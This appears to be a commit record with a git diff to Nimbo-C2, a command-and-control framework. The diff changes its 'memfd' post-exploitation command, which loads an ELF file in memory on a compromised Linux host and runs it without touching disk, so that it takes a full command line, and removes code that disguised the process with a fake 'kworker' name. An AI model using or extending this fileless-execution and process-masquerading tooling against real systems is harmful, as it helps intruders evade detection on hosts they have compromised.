

modified memfd to get full command line

Changed region(s): [[0.0, 0.027, 0.9681, 0.6486], [0.0, 0.8649, 0.363, 0.9459], [0.0, 0.7568, 0.3328, 0.8378]]

diff --git a/Nimbo-C2/Nimbo-C2.py b/Nimbo-C2/Nimbo-C2.py
@@ -238,9 +238,10 @@ def print_agent_help(os):
     upload <local-file> <remote-path>      ->  upload a file to the agent (wrap paths with quotes)
     
     --== Post Exploitation Stuff ==--
-    memfd <implant/task> <elf-file>        ->  load elf in-memory using the memfd_create syscall
+    memfd <mode> <elf-file> <commandline>  ->  load elf in-memory using the memfd_create syscall
                                                implant mode: load the elf as a child process and return
-                                               load the elf as a child process, wait on it, and get its output when it's done
+                                               task mode: load the elf as a child process, wait on it, and get its output when it's done
+                                               (pass the whole commandline as a single string using quotes)
     
     --== Communication Stuff ==--
     sleep <sleep-time> <jitter-%>          ->  change sleep time interval and jitter
@@ -561,16 +562,16 @@ def agent_screen_linux(agent_id):
                 args = re.sub(r"\s*memfd\s+", "", command, 1)
                 mode = shlex.split(args)[0]
                 elf_file = shlex.split(args)[1]
+                command_line = shlex.split(args)[2]
                 elf_file_content = utils.read_file(elf_file)
                 if not elf_file_content:
                     continue
                 else:
                     elf_file_data_base64 = utils.encode_base_64(elf_file_content, encoding="utf-8")
-                fake_process_name = f"kworker/[{random.randint(0, 4)}:{random.randint(0, 4)}]"
                 command_dict = {
                     "command_type": "memfd",
                     "mode": mode,
-                    "fake_process_name": fake_process_name,
+                    "command_line": command_line,
                     "elf_file_data_base64": elf_file_data_base64
                 }
 
